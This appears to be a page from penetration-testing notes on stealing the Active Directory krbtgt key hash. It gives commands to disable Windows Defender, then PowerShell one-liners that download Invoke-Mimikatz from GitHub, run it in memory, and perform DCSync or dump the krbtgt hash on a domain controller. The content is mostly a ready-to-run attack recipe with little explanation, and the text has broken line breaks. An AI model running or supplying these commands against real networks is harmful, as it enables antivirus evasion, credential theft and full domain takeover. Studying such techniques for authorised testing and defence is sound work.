



Obtain Krbtgt secret key
0. Disable Windows Defender
PS> Set-MpPreference -DisableRealtimeMonitoring $true #from Windows Server 2016
1. Obtain Krbtgt secret key(hash) ◇ Perform DcSync from a Windows machine
of the Domain
The only pre-requisite to worry about is that you have an account with rights to perform domain
replication.
We can perform DCSync if we have “Replicating Directory Changes” permissions on the Windows
Server:
Server Manager → Tools → Active Directory Users and Computers → View → Advanced Features → Right click
on the domain(e.g.:DANIELE.local) → proprieties → security

PS> IEX(New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/BC-SECURITY/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1 ");Invoke-Mimikatz -Command '"lsadump::dcsync /domain:daniele.local /user:krbtgt"'
 ◇ On the
Domain Controller as Domain Admin to obtain
krbtgt secret key(hash)
PS> IEX(New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/BC-SECURITY/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1 ");Invoke-Mimikatz -Command '"sekurlsa::krbtgt"'
 ◇ On the
Domain Controller extract hashes from
ntds.dit file
We have
seen it in the chapter “
Dump
hashes from Windows machines”
Bibliography:
•
https://stealthbits.com/blog/extracting-user-password-data-with-mimikatz-dcsync/•
https://adsecurity.org/?p=1729